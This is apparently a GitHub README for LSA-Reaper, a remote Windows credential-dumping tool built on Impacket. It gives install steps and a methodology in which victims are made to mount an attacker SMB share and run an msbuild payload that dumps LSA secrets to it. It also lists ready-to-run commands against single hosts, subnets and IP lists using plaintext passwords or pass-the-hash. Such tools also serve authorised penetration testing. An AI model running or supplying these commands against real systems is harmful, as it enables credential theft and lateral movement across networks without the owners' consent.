 # LSA-Reaper
<p align="center">
  <img width="400" height="400" src="/assets/lsareaper.png">
</p>

LSA-Reaper is a remote command line LSA dumping tool that uses [Impacket's](https://github.com/SecureAuthCorp/impacket) wmiexec or atexec.

## Requirements
```
Linux
Impacket
pip pypykatz
pip netifaces
pip python-nmap
Samba
```

## Installation
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo python3 -m pip install -r requirements.txt
cd ..
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
```
or
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo sh setup.sh
```

## Methodology
LSA-Reaper will begin by ping sweeping all provided IPs or IP ranges for alive hosts. LSA-Reaper will then create a SMB share with a random username and password that will act as the exfiltration point. LSA-Reaper will then execute the net use command on the victim machine via wmiexec or atexec to make the victim machine mount the share as a network drive and then execute msbuild to execute the payload which will dump LSA and save it to the mounted SMB share.

## Usage
```
sudo python3 lsa-reaper.py
```
![](/assets/help.png)

## Examples
```
sudo python3 lsa-reaper.py domain/user:'Password'@ip

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.100

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.0/24

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.10-200

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -hashes 'LMHASH:NTHASH' testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -ip local_ip testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -drive A testdomain/testuser@10.0.0.100
```

![](/assets/Reaper-Running.png)

![](/assets/example.png)
